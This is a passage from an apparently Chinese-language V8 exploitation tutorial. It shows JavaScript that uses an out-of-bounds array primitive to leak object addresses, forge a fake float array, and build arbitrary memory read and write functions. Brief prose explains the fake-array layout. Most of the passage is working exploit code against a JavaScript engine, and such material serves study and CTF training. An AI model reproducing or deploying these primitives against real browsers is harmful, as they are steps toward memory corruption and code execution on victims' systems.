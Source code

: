 ```JavaScript
var obj = {};
var obj_list = [obj];
var float_list = [4.3];

var obj_map = obj_list.oob();
var float_map = float_list.oob();

obj_list.oob(float_map);
var obj_addr = f2i(obj_list[0]) - 0x1n;
obj_list.oob(obj_map);
console.log("[DEMO] addr of obj is: 0x" + hex(obj_addr));
%DebugPrint(obj);
%SystemBreak();
```

这样一来, 我们就可以开始考虑构造任意地址写了, 思路如下:  

 - 首先, 在JavaScript中浮点数在内存中是直接存储的, 因此伪造`float_array`是比较合适的;
 - 目标是通过在`fake_float_array`这个对象的`elements`的基础上使用`get_obj()`函数构建假的`float_array`
 - 如此一来, 当访问到`fake_array[0]`的时候, 实际上会根据其map设定的访问规则, 最终访问到`target_addr+10`也是`fake_float_array[2]`的位置上.  

文字描述还是有点绕, 测试代码如下:  

```JavaScript
// arbitary read and write
function get_addr( target_obj ) {
    obj_list[0] = target_obj;
    obj_list.oob(float_map);
    let res = f2i(obj_list[0]) - 1n;
    obj_list.oob(obj_map);
    return res;
}
function get_obj( target_addr ) {
    float_list[0] = i2f(target_addr + 1n);
    float_list.oob(obj_map);
    let res = float_list[0];
    float_list.oob(float_map);
    return res;
}

var fake_float_array = [
    float_map, 
    i2f(0n), 
    i2f(0xdeadbeefn), 
    i2f(0x400000000n),
    4.3, 
    4.3
];
var fake_array_addr = get_addr(fake_float_array);
var fake_elements_addr = fake_array_addr - 0x30n;
var fake_obj = get_obj(fake_elements_addr);

function arb_read( target_addr ) {
    fake_float_array[2] = i2f(target_addr - 0x10n + 1n);
    let res = f2i(fake_obj[0]);
    console.log("[SUCCESS] data from 0x" + hex(target_addr) + " is: 0x" + hex(res));
    return res;
}
function arb_write( target_addr, data ) {
    fake_float_array[2] = i2f(target_addr - 0x10n + 1n);
    fake_obj[0] = i2f(data);
    console.log("[SUCCESS] written to 0x" + hex(target_addr) + " with: 0x" + hex(data));
}

```
